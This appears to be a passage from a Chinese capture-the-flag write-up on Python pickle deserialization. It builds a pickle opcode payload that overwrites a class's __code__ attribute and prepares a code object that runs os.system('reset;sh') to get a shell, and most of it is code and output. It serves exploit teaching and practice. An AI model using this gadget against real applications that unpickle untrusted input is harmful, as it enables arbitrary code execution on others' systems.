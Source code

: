 综上所述，为了调用 setattr 来覆盖真正的 `__code__` 属性，我们需要在栈上压入：
1. SnakeWindow
2. `(None,{'__code__',xxxxx})`
两个元素，然后执行 BUILD 操作码。

因此 payload 可以改为：
```py
p = GLOBAL + b'__main__\nSnakeWindow\n' + \
    NONE + \
    MARK + \
        UNICODE + b'__code__\n' + \
        UNICODE + b'bbbb\n' + \
        DICT + \
    TUPLE2 + \
    BUILD + \
    STOP
```

由于这里赋值 `__code__` 时没有传入 code 对象，因此报错是正常的。后面只要构造出 code 对象，将其进行替换即可。这一段 payload 可以作为一个 gadget。
```py
a = loads(p)
Traceback (most recent call last):
  File "<string>", line 1, in <module>
TypeError: __code__ must be set to a code object
```


#### 第二步：构建 code 对象
我们可以编写 payload 函数，并打印所有 `__code__` 子属性。
```py
def read(_):
    return __import__('os').system('reset;sh')

print(read.__code__.co_argcount)
print(read.__code__.co_posonlyargcount)
print(read.__code__.co_kwonlyargcount)
print(read.__code__.co_nlocals)
print(read.__code__.co_stacksize)
print(read.__code__.co_flags)
print(read.__code__.co_code)
print(read.__code__.co_consts)
print(read.__code__.co_names)
print(read.__code__.co_varnames)
print(read.__code__.co_filename)
print(read.__code__.co_name)
print(read.__code__.co_qualname)
print(read.__code__.co_firstlineno)
print(read.__code__.co_linetable)
print(read.__code__.co_exceptiontable)
print(read.__code__.co_freevars)
print(read.__code__.co_cellvars)
```

可以得到：
```
1
0
0
1
3
3
b'\x97\x00t\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x01\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\xa0\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x02\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00S\x00'
(None, 'os', 'reset;sh')
('__import__', 'system')
('_',)
```